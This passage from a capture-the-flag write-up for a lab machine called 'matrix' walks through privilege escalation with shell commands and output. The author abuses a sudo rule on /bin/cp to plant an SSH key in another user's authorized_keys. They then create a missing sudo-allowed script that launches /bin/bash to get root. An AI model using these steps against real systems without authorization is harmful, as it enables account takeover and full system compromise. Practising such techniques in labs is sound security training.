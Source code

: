 # [](#header-3)Privilege Escalaption

`trinity` user can run `/bin/cp` so let generate ssh key

```shell
guest@matrix:~$ ssh-keygen 
Generating public/private rsa key pair.
Enter file in which to save the key (/home/guest/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/guest/.ssh/id_rsa.
Your public key has been saved in /home/guest/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:lhle/Tkb5WlXikvNAwu6naeWHoRs+zuva4pOyi/fwI8 guest@matrix
The key's randomart image is:
+---[RSA 2048]----+
|                 |
|           .     |
|        . o o   o|
|       o B . B =o|
|        S . + Xoo|
|     . o = o ..=.|
|      + o +.o .  |
|   ..o * .=+     |
|    o=E +=B*.    |
+----[SHA256]-----+
guest@matrix:~$
```
Copy our `id_rsa.pub` to /home/trinity/.ssh/ and login it like me 

```shell
guest@matrix:~/.ssh$ ls
id_rsa  id_rsa.pub  known_hosts
guest@matrix:~/.ssh$ cp id_rsa.pub /home/guest
guest@matrix:~/.ssh$ cd
guest@matrix:~$ chmod 777 id_rsa.pub 
guest@matrix:~$ sudo -u trinity /bin/cp ./id_rsa.pub /home/trinity/.ssh/authorized_keys
guest@matrix:~$ ssh trinity@127.0.0.1 -i /.ssh/id_rsa -p 6464
Warning: Identity file /.ssh/id_rsa not accessible: No such file or directory.
Last login: Thu Jul 30 13:33:19 2020 from 127.0.0.1
trinity@matrix:~$ sudo -l
User trinity may run the following commands on matrix:
    (root) NOPASSWD: /home/trinity/oracle
trinity@matrix:~$ 
```
`oracle` can run as root but we have no oracle file `/home/trinity` directory

Let's create it :)

```shell
trinity@matrix:~$ echo "/bin/bash" > oracle
trinity@matrix:~$ chmod 777 oracle 
trinity@matrix:~$ sudo ./oracle 
root@matrix:/home/trinity# whoami
root
root@matrix:/home/trinity#

```
